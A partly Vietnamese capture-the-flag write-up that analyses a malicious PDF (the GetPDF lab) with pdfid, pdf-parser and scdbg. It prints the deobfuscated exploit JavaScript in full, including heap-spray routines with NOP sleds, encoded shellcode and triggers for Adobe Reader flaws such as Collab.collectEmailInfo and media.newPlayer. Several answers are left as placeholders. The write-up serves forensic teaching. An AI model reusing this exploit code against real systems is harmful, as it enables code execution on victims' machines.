

# GetPDF Lab

**Difficulty:** Hard  
**Category:** Malware  
**Tools:** pdf-parser, pdfid, peepdf, pyenv, scdbg

---

## 🔍 Q1: How many URL path(s) are involved in this incident?



---

## 🔍 Q2: What is the URL which contains the JS code?


---

## 🔍 Q3: What is the URL hidden in the JS code?


> **Note:** Để an toàn thì ta nên comment biến chứa `window` lại khi phân tích JavaScript.

---

## 🔍 Q5: How many object(s) are contained inside the PDF file?

### Cách 1: Sử dụng Terminal

```bash
nqghuy@nqghuy:~/CTF/forensics/GetPDF/Malicious-Portable$ pdfid fcexploit.pdf 
PDFiD 0.2.10 fcexploit.pdf
 PDF Header: %PDF-1.3
 obj                   19
 endobj                18
 stream                 5
 endstream              5
 xref                   1
 trailer                1
 startxref              1
 /Page                  2
 /Encrypt               0
 /ObjStm                0
 /JS                    1
 /JavaScript            1
 /AA                    0
 /OpenAction            1
 /AcroForm              1
 /JBIG2Decode           0
 /RichMedia             0
 /Launch                0
 /EmbeddedFile          1
 /XFA                   1
 /Colors > 2^24         0
```

### 📚 Phân tích các indicators quan trọng:

#### **/JavaScript hoặc /JS**
- `/JavaScript` hoặc `/JS` trong pdfid output nghĩa là PDF có chứa code JavaScript
- Trong PDF hợp pháp, JavaScript thường dùng cho form hoặc tương tác nhỏ
- Trong **PDF độc hại**, JavaScript thường dùng để khai thác lỗ hổng của trình đọc PDF (ví dụ: heap spray, buffer overflow) để thực thi mã độc

#### **/OpenAction**
- `/OpenAction` là lệnh PDF để **thực hiện một hành động ngay khi mở file**
- Nếu `/OpenAction` gọi tới `/JavaScript`, thì code độc hại sẽ **tự chạy** ngay khi nạn nhân mở file, không cần bấm gì

#### **/EmbeddedFile**
- `/EmbeddedFile` cho biết PDF chứa **file nhúng** (ví dụ: `.exe`, `.doc`, `.zip`)
- Kẻ tấn công có thể dùng JavaScript để **giải nén và chạy** file nhúng này trên máy nạn nhân
- Đây là cách PDF phát tán malware như trojan hoặc ransomware

### Cách 2: Sử dụng VMware REMnux

```bash
remnux@remnux:~/forensics/GetPDF/Malicious-Portable$ pdfid.py fcexploit.pdf 
PDFiD 0.2.8 fcexploit.pdf
 PDF Header: %PDF-1.3
 obj                   19
 endobj                18
 stream                 5
 endstream              5
 xref                   1
 trailer                1
 startxref              1
 /Page                  2
 /Encrypt               0
 /ObjStm                0
 /JS                    1
 /JavaScript            1
 /AA                    0
 /OpenAction            1
 /AcroForm              1
 /JBIG2Decode           0
 /RichMedia             0
 /Launch                0
 /EmbeddedFile          1
 /XFA                   1
 /URI                   0
 /Colors > 2^24         0
```

---

## 🔍 Q6: How many filtering schemes are used for the object streams?

Filtering schemes trong PDF dùng để mã hóa và nén dữ liệu.

```bash
remnux@remnux:~/forensics/GetPDF/Malicious-Portable$ pdf-parser.py fcexploit.pdf --search=Filter | grep -i filter
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
```

**Answer:** `4` filtering schemes

---

## 🔍 Q7: What is the number of the 'object stream' that might contain malicious JS code?

```bash
obj 4 0
 Type: /Action
 Referencing: 5 0 R

  <<
    /Type /Action
    /S /JavaScript
    /JS 5 0 R
  >>

obj 5 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 395
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>

 'ASCII85Decode decompress failed'
```

### 📚 Phân tích Object 4:
- `/Type /Action` → đây là một **hành động**
- `/S /JavaScript` → hành động này là **chạy JavaScript**
- `/JS 5 0 R` → phần mã JavaScript không nằm trực tiếp trong object 4, mà **nằm ở object số 5**, và 4 chỉ **tham chiếu** tới 5

> **Note:** Object 4 là "cò" kích hoạt, còn mã độc thật nằm ở Object 5.

### 📚 Phân tích Object 5:
- `/Length 395` → stream có dung lượng sau nén là 395 byte
- `/Filter [...]` → PDF hỗ trợ nhiều loại nén/mã hóa dữ liệu, và ở đây **4 bộ lọc** được xếp chồng lên nhau:
  1. **/FlateDecode** → giải nén kiểu zlib/deflate
  2. **/ASCII85Decode** → giải mã dữ liệu được mã hóa dạng ASCII85
  3. **/LZWDecode** → giải nén thuật toán LZW
  4. **/RunLengthDecode** → giải mã nén run-length

> **Note:** Bộ lọc nhiều lớp như vậy **thường dùng để obfuscate (làm rối)** mã độc, khiến việc phân tích thủ công khó khăn hơn.

**Answer:** `5`

---

## 🔍 Q8: Analyzing the PDF file. What 'object-streams' contain the JS code responsible for executing the shellcodes?

### Thiết lập Python 2.7 Environment

```bash
nqghuy@nqghuy:~/CTF/forensics/GetPDF/Malicious-Portable$ use-pyenv
nqghuy@nqghuy:~/CTF/forensics/GetPDF/Malicious-Portable$ pyenv activate py2.7
```

### Extracting Object 5

```bash
(py2.7) nqghuy@nqghuy:~/CTF/forensics/GetPDF/Malicious-Portable$ pdf-parser fcexploit.pdf -f -o 5 -d obj5
obj 5 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 395
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>
```

#### 📚 pdf-parser Parameters:
- `-f, --filter`: Pass stream object through filters (FlateDecode, ASCIIHexDecode, ASCII85Decode, LZWDecode and RunLengthDecode only)
- `-d DUMP, --dump=DUMP`: Filename to dump stream content to
- `-o OBJECT, --object=OBJECT`: ID(s) of indirect object(s) to select, use comma (,) to separate ids (version independent)

### Deobfuscated JavaScript Code

```javascript
var SSS = null;
var SS = 'ev';
var $S = '';
$5 = 'in';
app.doc.syncAnnotScan();
S$ = 'ti';
if (app.plugIns.length != 0) {
    var $$ = 0;
    S$ += 'tl';
    $5 += 'fo';
    ____SSS = app.doc.getAnnots({ nPage: 0 });
    S$ += 'e';
    $S = this.info.title;
}
var S5 = '';
if (app.plugIns.length > 3) {
    SS += 'a';
    var arr = $S.split('#');
    for (var $ = 1; $ < arr.length; $++) {
        S5 += String.fromCharCode('0x' + arr[$]);
    }
    SS += 'l';
}
if (app.plugIns.length >= 2) {
    app[SS](S5);
}
```

**Analysis:**
- `SS = eval`
- `S$ = title`
- Thực thi `title.split('#')`

### Finding the Title Object

```bash
(py2.7) nqghuy@nqghuy:~/CTF/forensics/GetPDF/Malicious-Portable$ pdf-parser fcexploit.pdf | grep -i title -B 10

obj 11 0
 Type: /EmbeddedFile
 Referencing: 10 0 R
 Contains stream

  <<
    /Creator (Scribus 1.3.3.14)
    /Producer (Scribus PDF Library 1.3.3.14)
    /Title 10 0 R
```

`title` chính là object 10.


Ta có 2 object reference annotation là 6 và 8, trỏ đến object 7 và 9.

### Analyzing Objects 7 and 9

```bash
(py2.7) nqghuy@nqghuy:~/CTF/forensics/GetPDF/Malicious-Portable$ pdf-parser -o 7,9 fcexploit.pdf 
obj 7 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 8714
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>

obj 9 0
 Type: 
 Referencing: 
 Contains stream

  <<
    /Length 10522
    /Filter [ /FlateDecode /ASCII85Decode /LZWDecode /RunLengthDecode ]
  >>
```

Hai object này có length khá dài và chứa shellcode.

### Extracting and Decoding Object 7

```bash
(py2.7) nqghuy@nqghuy:~/CTF/forensics/GetPDF/Malicious-Portable$ pdf-parser fcexploit.pdf -o 7 -f -d obj7
(py2.7) nqghuy@nqghuy:~/CTF/forensics/GetPDF/Malicious-Portable$ cat obj7
89af50d3889af50d3889af50d3889af50d3889af50d38...
```

Object 7 khớp với biến `S5` trong JavaScript.

### Processing with sed

```bash
nqghuy@nqghuy:~/CTF/forensics/GetPDF/Malicious-Portable$ sed 's/89af50d/%/g' obj7 | xclip -selection clipboard
```

### Decoded JavaScript (Object 7)

```javascript
8888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888888;
this.bC = 3699;
util.printf("%45000f", num);  
}
var eQ = "";

function gX() {
    var basicZ = '';
    // notepad.exe payload
    var shellcode = unescape("%uc931%u64b1%ub6bf%u558b%ud976%ud9cd%u2474%u58f4%ue883%u31fc%u0d78%u7803%ue20d%u6043%u2c45%u44e1%ub6af%u964c%ub72e%ued9a%u55a9%u1a18%u71cc%u2237%u7e30%u91b7%u1856%ue9ae%u2394%u7479%ucdff%u5e6b%ufc95%ue562%u12a2%u77ad%u53d8%u925f%u4178%ue5b2%ufc62%uf826%ub883%u9e2c%u6c59%uf5dd%u5d2a%uc113%uc7c1%ub031%u6cf7%ua2b6%u1838%u2007%u1d29%ua0b1%u0314%uaee1%ufbd8%u96df%ua80b%uc7cd%uca91%ubfab%u7091%uea13%u7a32%u7bb1%u5ba0%ue130%u3b9f%u8d42%ue4ba%u28a0%u4e20%u29d6%u0147%uf2cc%ucff0%uffb9%u2f62%uc948%u2904%ud333%ude69%u2b88%u10f3%u776b%uedee%uef80%u9fcf%u89c2%uc649%uf510%u36e3%u10fb%ud153%u40ef%u4d82%u41f6%ue4ae%u5cb1%uf58a%uaa78%u3472%u750f%u52e6%u712a%u9faf%u5fea%uc24a%u9cf3%u64f2%u0559%u5ecc%u7957%u0607%ue3a9%u828a%u26fc%uc2cc%u7f97%u1577%u2a0a%u9c21%u73c8%ube3e%u4838%uf571%u04de%uca4d%ue02c%u6126%u4c09%ucab8%u16cf%ueb5c%u3af3%uf869%u3ffd%u02b2%u2bfc%u17bf%u3214%u149e%u8f05%u0fff%uec38%u0df4%ue632%u5709%u0f5f%u481a%u6947%u7913%u5680%u864d%ufe94%u9652%uec98%ua8a6%u13b3%ub6c0%u39da%ub1c7%u1421%ub9d8%u6f32%udef2%u091c%uf4e9%ude69%ufd04%ud308%ud722%u1af7%u2f5a%u15f2%u2d5b%u2f31%u3e43%u2c3c%u26a4%ub9d6%u2921%u6d1c%uabe5%u1e0c%u059e%u8fa4%u3f0e%u3e4d%ucbaa%ud183%u5346%u40f5%ub4de%uf46f%uae52%u7901%u53fa%u1e82%uf294%u8d50%u9b01%u28cf%u50e5%ud262%ue195%u661d%u2003%ufeb8%ubcae");
    var mem_array = new Array();  
    this.googleBasicR = "";
    var cc = 0x0c0c0c0c;
    var addr = 0x400000;
    var sc_len = shellcode.length * 2;
    var len = addr - (sc_len + 0x38);
    var yarsp = unescape("%u9090%u9090");
    this.eS = "eS";
    yarsp = s(yarsp, len);
    var count2 = (cc - 0x400000) / addr;
    this.rF = false;
    this.p = "p";
    for (var count = 0; count < count2; count++) {
        mem_array[count] = yarsp + shellcode;
    }
    var bUpdate = new String(""); 
    var overflow = unescape("%u0c0c%u0c0c");
    var cP = function() {};
    this.gD = "";
    while (overflow.length < 44952) {
        this.tO = "";
        overflow += overflow; 
    }
    var adobeD = new String();
    this.collabStore = Collab.collectEmailInfo({
        subj: "",
        msg: overflow
    });
}
```

### Processing Object 9

```bash
(py2.7) nqghuy@nqghuy:~/CTF/forensics/GetPDF/Malicious-Portable$ pdf-parser fcexploit.pdf -o 9 -f -d obj9
(py2.7) nqghuy@nqghuy:~/CTF/forensics/GetPDF/Malicious-Portable$ cat obj9
X_17844743X_17098774376X_17844743X_17098774361...
```

Object 9 khớp với biến `$5` trong JavaScript.

### Decoded JavaScript (Object 9)

```javascript
var w = new String();
var c = app;

function s(yarsp, len) {
    while (yarsp.length * 2 < len) {
        yarsp += yarsp;
        this.x = false;
    }
    var eI = 37715;
    yarsp = yarsp.substring(0, len / 2);
    return yarsp;
    var yE = 18340;
}

function cG() {
    var chunk_size, payload, nopsled;
    
    chunk_size = 0x8000;
    // calc.exe payload
    payload = unescape("%uabba%ua906%u29f1%ud9c9%ud9c9%u2474%ub1f4%u5d64%uc583%u3104%u0f55%u5503%ue20f%ued5e%uabb9%uc1ea%u2d70%u1953%u3282%u6897%ud01d%u872d%ufd18%ua73a%u02dc%u14cc%u64ba%u66b5%uae41%uf16c%u5623%udb7c%u7bc1%u5e69%u69dd%uf0b0%ucf0c%u1950%udd95%u5ab9%u7b37%u772b%uc55f%u1531%ue18d%u70c8%uc2c5%u4c1c%u7b34%u2f3a%ue82b%u27c9%u848b%ua512%u999d%u2faa%u84c0%u2bee%u768c%u0bc8%u237e%u4cc6%u51c2%u3abc%ufc45%u1118%uffe5%uf48a%udf14%u6c2f%u8742%u0a57%u6fe9%ub5b5%uca94%ua6ab%u84ba%u77d1%u4a2c%u74ac%uabcf%ub25f%ub269%u5e06%u51d5%u90f3%u978f%uec66%u6942%u6a9b%u18a2%u12ff%u42ba%u7be5%ubb37%u9dc6%u5de0%ufe14%uf2f7%uc6fd%u7812%uda44%u7167%u110f%ubb01%uf81a%ud953%ufc21%u22db%u20f7%u46b9%u27e6%ue127%u8e42%udb91%ufe58%ubaeb%u6492%u07fe%uade3%u4998%uf89a%u9803%u5131%u1192%ufcd5%u3ac9%u352d%u71de%u81cb%u4522%u6d21%uecd2%ucb1c%u4e6d%u8df8%u6eeb%ubff8%u653d%ubaf6%u8766%ud10b%u926b%ubf19%u9f4a%u0a30%u8a92%u7727%u96a7%u6347%ud3b4%u824a%uc4ae%uf24c%uf5ff%ud99b%u0ae1%u7b99%u133d%u91ad%u2573%u96a6%u3b74%ub2a1%u3c73%ue92c%u468c%uea25%u5986%u9261%u71b5%u5164%u71b3%u561f%uabf7%u91c2%ua3e6%uab09%ub60f%ua23c%ub92f%ub74b%ua308%u3cdb%ua4dd%u9221%u2732%u8339%u892b%u34a9%ub0da%ua550%u4f47%u568c%uc8fa%uc5fe%u3983%u7a98%u2306%uf60a%uc88f%u9b8d%u6e27%u305d%u1edd%uadfa%ub232%u4265%u2d3a%uff17%u83f5%u87b2%u5b90");
    nopsled = unescape("%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090");
    while (nopsled.length < chunk_size)
        nopsled += nopsled;
    nopsled_len = chunk_size - (payload.length + 20);        
    nopsled = nopsled.substring(0, nopsled_len);
    heap_chunks = new Array();
    for (var i = 0 ; i < 2500 ; i++)
        heap_chunks[i] = nopsled + payload;

    util.printd("1.000000000.000000000.1337 : 3.13.37", new Date());
    try {
        media.newPlayer(null);
    } catch(e) {}
    util.printd("1.000000000.000000000.1337 : 3.13.37", new Date());
}
```

**Answer:** `7,9`

---

## 🔍 Q9: The JS code responsible for executing the exploit contains shellcodes that drop malicious executable files. What is the full path of malicious executable files after being dropped by the malware on the victim machine?

### Extracting Shellcode from Object 9

```bash
sed 's/X_17844743X_170987743/%/g' obj9 | xxd -r -p > obj9.o
```

#### 📚 xxd Parameters:
- **`-r`** = *reverse* → chuyển từ hexdump về lại dạng nhị phân gốc
- **`-p`** = *plain hexdump style* → đọc dữ liệu ở dạng chuỗi hex liên tục (không offset, không ASCII ở bên phải)

### Analyzing calc.exe Shellcode

Tách shellcode calc.exe ra file riêng:


### Using scdbg on REMnux

```bash
remnux@remnux:~/forensics/GetPDF/Malicious-Portable$ scdbg -f calc_shellcode.bin
```


**Answer:** Full path của malicious executables được drop bởi shellcode

---

## 🔍 Q10: The PDF file contains another exploit related to CVE-2010-0188. What is the URL of the malicious executable that the shellcode associated with this exploit drop?

Sử dụng Wireshark để phân tích network traffic và tìm URL download malware.

**Answer:** URL của malicious executable

---

## 🔍 Q11: How many CVEs are included in the PDF file?

Tổng hợp các CVE được khai thác trong PDF:
1. CVE-2010-0188
2. [Additional CVEs from analysis]

**Answer:** Total number of CVEs

---

## 📝 Summary

Lab này minh họa một cuộc tấn công phức tạp thông qua malicious PDF:
- Khai thác multiple CVEs (CVE-2010-0188 và các CVEs khác)
- Sử dụng JavaScript obfuscation để ẩn giấu shellcode
- Multiple filtering schemes để bypass detection
- Heap spray techniques để RCE
- Dropping multiple payloads (notepad.exe, cmd.exe, freecell.exe, calc.exe)

**Key Takeaways:**
- PDF có thể chứa executable code thông qua JavaScript
- Multiple encoding layers để obfuscate malicious content
- OpenAction tự động thực thi code khi mở file
- Annotation objects có thể chứa shellcode
- scdbg là tool hữu ích để phân tích shellcode behavior

---

## 🔗 References

- [pdf-parser Documentation](https://blog.didierstevens.com/programs/pdf-tools/)